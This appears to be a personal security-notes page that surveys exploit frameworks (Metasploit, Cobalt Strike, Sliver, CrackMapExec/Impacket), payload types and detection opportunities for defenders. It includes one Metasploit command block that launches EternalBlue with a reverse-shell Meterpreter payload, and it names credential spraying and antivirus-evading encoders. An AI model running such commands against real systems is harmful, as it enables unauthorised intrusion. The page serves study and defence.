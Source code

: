 **Exploit frameworks** are toolkits that streamline the process of discovering, developing, and deploying exploits against vulnerable targets. These frameworks support **penetration testing**, **red teaming**, **malware simulation**, and **defensive testing** by providing reusable exploit modules, payload delivery systems, and post-exploitation utilities.

---

## 🎯 Purpose of Exploit Frameworks

- Simulate real-world cyberattacks for testing defenses
- Validate vulnerabilities (e.g., CVEs) through PoC execution
- Deliver and manage **payloads**, **C2 channels**, and **lateral movement**
- Automate offensive techniques for **red teams** and **adversary emulation**
- Assist blue teams in understanding, detecting, and defending against live threats

---

## 🧰 Popular Exploit Frameworks

### 1. 🧨 Metasploit Framework (Open Source)
- **Language**: Ruby
- **Core Use**: Exploits, payloads, auxiliary scanners, post-exploitation
- **Key Tools**: `msfconsole`, `msfvenom`, Armitage (GUI), `metasploit-payloads`
- **Ideal For**: Beginners and pros in red teaming, vulnerability validation

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### 2. 🛰️ Cobalt Strike (Commercial)

- **Use**: Adversary emulation and red team infrastructure
- **Key Features**: Beacons, Malleable C2 profiles, OPSEC controls
- **Common In**: Ransomware operations (often abused by threat actors)
- **TeamServer**: Centralized control point for operations

---

### 3. 🦊 Sliver (Open Source by Bishop Fox)

- **Language**: Golang
- **Key Features**: Cross-platform implants, encrypted comms, reflective loading
- **Positioning**: A modern alternative to Cobalt Strike
- **Extras**: C2 over HTTPS, DNS, and WireGuard

---

### 4. 🧠 Core Impact / Canvas / Exploit Pack (Commercial)

- **Use Case**: Enterprise-grade penetration testing tools
- **Features**: Automated exploitation, advanced evasion, graphical workflows
- **Audience**: Security consultants, corporate red teams, compliance auditors

---

### 5. 🔧 CrackMapExec / Impacket

- **Toolkits**: Not standalone frameworks but essential in Windows/AD exploitation
- **Best For**: Credential spraying, SMB relay, Kerberos abuse, lateral movement

---

## 🧩 Module Types in Exploit Frameworks

|Module Type|Description|
|---|---|
|**Exploit**|Leverages a specific vulnerability (e.g., CVE)|
|**Payload**|Delivers shell, Meterpreter, custom script, etc.|
|**Auxiliary**|Scanners, fuzzers, enumeration tools|
|**Post**|Actions after exploitation (e.g., dump hashes, pivot network)|
|**Encoders**|Obfuscate payloads to bypass antivirus|

---

## 🔥 Common Payloads

|Payload Type|Purpose|
|---|---|
|**Reverse Shell**|Target connects back to attacker|
|**Bind Shell**|Opens port on victim for attacker to connect|
|**Meterpreter**|Full-featured post-exploitation agent (Metasploit)|
|**Staged/Stageless**|Divide payload for stealth or deliver in one shot|

---

## 🛡️ Defensive Considerations

|Indicator|Detection Opportunity|
|---|---|
|`msfvenom` payloads|AV/EDR/YARA rule detection|
|Reverse shell connections|Firewall + EDR alerting|
|Beacons (C2 callbacks)|Beaconing detection via RITA, Zeek, or SIEM|
|Suspicious parent-child chains|`explorer.exe → powershell.exe` or LOLBin abuse|
|Abused ports (e.g., 443, 53)|Threat hunting and anomaly detection|

---

## 🧠 Real-World Use Cases

|Framework|Scenario|
|---|---|
|**Metasploit**|Exploit CVE-2017-0144 (EternalBlue)|
|**Sliver**|Establish encrypted C2 on red team engagement|
|**Cobalt Strike**|Simulate APT C2 with Malleable Profile|
|**CrackMapExec**|Spray credentials across Active Directory|

---

## 🧰 Tools That Complement Exploit Frameworks

- **YARA / Sigma**: Detect payloads and behavior
- **Ghidra / IDA**: Reverse engineer binaries pre- or post-exploit
- **Procmon / Sysmon**: Monitor system behavior during post-exploitation
- **Splunk / ELK**: Correlate exploit activity across the environment

---

## 🔗 Related Topics

- [[Exploit Development]]
- [[Command and Control (C2)]]
- [[Payload Types]]
- [[Defense Evasion Techniques]]
- [[Post-Exploitation Techniques]]
- [[SIEM Tools]]

---

## 🏷 Tags

#exploit_frameworks #metasploit #cobalt_strike #sliver #post_exploitation #red_team #penetration_testing #payloads #offensive_security
